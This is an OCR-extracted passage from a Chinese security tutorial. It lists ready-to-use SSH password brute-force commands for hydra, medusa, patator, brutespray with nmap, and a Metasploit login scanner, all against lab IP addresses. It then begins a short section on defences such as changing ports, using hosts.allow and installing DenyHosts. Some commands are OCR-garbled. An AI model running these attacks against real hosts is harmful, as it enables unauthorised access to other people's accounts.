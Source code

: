 （7）brutepray会自动生成破解成功日志文件/brutespray-output/ssh-success.txt；hydra加参数“-o save.log”记录破解成功到日志文件save.log，medusa加“-O ssh.log”参数可以将成功破解的记录记录到ssh.log文件中；patator可以加参数“-x ignore:mesg='Authentication failed.'”来忽略破解失败的尝试，而仅仅显示成功的破解。

### 2.命令总结

**（1）hydra破解ssh密码**

```bash
hydra -lroot  -P pwd2.dic -t 1 -vV -e ns 192.168.44.139 ssh
hydra -lroot  -P pwd2.dic -t 1 -vV -e ns  -o save.log  192.168.44.139  ssh
```

**（2）medusa破解ssh密码**

```bash
medusa -M ssh -h 192.168.157.131 -u root -Pnewpass.txt
medusa -M ssh -h192.168.157.131 -u root -P /root/newpass.txt -e ns –F
```

**（3）patator破解ssh密码**

```bash
./patator.py ssh_login host=192.168.157.131user=root password=FILE0 0=/root/newpass.txt -x
ignore:mesg='Authenticationfailed.'
./patator.py ssh_login host=192.168.157.131user=FILE1 1=/root/user.txt password=FILE0
0=/root/newpass.txt -x ignore:mesg='Authenticationfailed.'
```

如果不是本地安装，则使用patator执行即可。

**（4）brutespray暴力破解ssh密码**

```bash
nmap -A-p 22 -v 192.168.17.0/24 -oX 22.xml
python brutespray.py --file 22.xml -u root -p toor --threads 5 --hosts 5
```

**（5）msf暴力破解ssh密码**

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts192.168.17.147
set PASS_FILE /root/pass.txt
set USER_FILE /root/user.txt
run
```

### 九、 SSH暴力破解安全防范

1.修改 `/etc/ssh/sshd_config` 默认端口为其它端口。例如设置端口为 `2232` ，则port=2232

2.在 `/etc/hosts.allow` 中设置允许的IP访问，例如 `sshd:192.168.17.144:allow`

3.使用 `DenyHosts` 软件来设置，其下载地址：

[https://sourceforge.net/projects/denyhosts/files/denyhosts/2.6/DenyHosts-2.6.tar.gz/download](https://sourceforge.net/projects/denyhosts/files/denyhosts/2.6/DenyHosts-2.6.tar.gz/download)

**（1）安装cdDenyHosts**
